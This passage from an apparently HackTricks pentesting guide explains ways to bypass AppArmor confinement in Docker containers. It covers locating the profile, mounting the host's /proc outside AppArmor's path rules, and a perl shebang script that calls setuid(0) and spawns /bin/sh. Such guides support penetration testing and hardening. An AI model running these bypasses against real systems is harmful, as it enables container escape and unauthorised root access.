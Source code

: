 ```bash
docker inspect 9d622d73a614 | grep lowpriv
        "AppArmorProfile": "lowpriv",
                "apparmor=lowpriv"
```

Then, you can run the following line to **find the exact profile being used**:

```bash
find /etc/apparmor.d/ -name "*lowpriv*" -maxdepth 1 2>/dev/null
```

In the weird case you can **modify the apparmor docker profile and reload it.** You could remove the restrictions and "bypass" them.

### AppArmor Docker Bypass2

**AppArmor is path based**, this means that even if it might be **protecting** files inside a directory like **`/proc`** if you can **configure how the container is going to be run**, you could **mount** the proc directory of the host inside **`/host/proc`** and it **won't be protected by AppArmor anymore**.

### AppArmor Shebang Bypass

In [**this bug**](https://bugs.launchpad.net/apparmor/+bug/1911431) you can see an example of how **even if you are preventing perl to be run with certain resources**, if you just create a a shell script **specifying** in the first line **`#!/usr/bin/perl`** and you **execute the file directly**, you will be able to execute whatever you want. E.g.:

```perl
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /tmp/test.pl
chmod +x /tmp/test.pl
/tmp/test.pl
```


<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>


